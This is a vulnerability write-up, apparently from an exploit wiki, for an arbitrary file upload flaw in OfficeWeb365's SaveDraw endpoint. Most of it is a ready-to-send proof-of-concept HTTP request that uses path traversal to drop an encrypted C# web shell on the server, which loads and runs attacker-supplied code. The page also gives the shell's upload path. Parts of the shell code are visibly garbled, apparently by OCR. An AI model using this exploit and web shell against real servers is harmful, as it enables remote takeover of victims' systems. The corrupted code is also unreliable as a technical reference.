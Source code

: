 # OfficeWeb365 SaveDraw Arbitrary File Upload Vulnerability

## Vulnerability Description

There is a vulnerability to upload any file in the OfficeWeb365 SaveDraw interface. An attacker can upload any file on the server to obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OfficeWeb365 </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"OfficeWeb365"</span>

## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665984265863-0522ce25-d026-4e30-9ddc-4f690b84b19d.png)

Verify POC

```java
POST /PW/SaveDraw?path=../../Content/img&idx=6.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.434.18 Safari/537.36
Content-Length: 990
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

data:image/png;base64,01s34567890123456789y12345678901234567m91<%@ WebHandler Language="C#" Class="Handler" %>using System;using System.I0;using System.Reflection;using System.Text;using System.Web;using System.WebSessionState;using&System.Security.Cryptography;public class Handler : IHttpHandler,IRequiresSessionState{public void=&ProcessRequest(HttpContext context){try{string key="900bc885d7553375";byteDk=&Encoding.Default.GetBytes(key);context.Session.AddC"sky", key);StreamReader sr=new&StreamReader(contextRequest.InputStream);string line=sr.ReadLine;if(!string.IsNullOrEmpty(line)){byteDc=&Convert.FromBase64String(line);Assembly assembly=&typeof(Environment).Assembly;RijndaelManaged rm=(RijndaelManaged)&assembly.CreateInstance("System.Secur"+"ityCrypto"+"graphy.Rijnda"+"elm anaged");byte[ data=rm.CreateDecryptorCk,k)TransformFinalBlock(c,0, c.Length);Assembly.Load(data)CreateInstance("U").Equals(context);sr.clo se();}}catch {}}public bool IsReusable{get{return false;}}}}---
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665984405457-e01e0fa8-4ddd-4998-ab86-f0d3c6200283.png)

Upload address

```java
/Content/img/UserDraw/drawPW6.ashx
```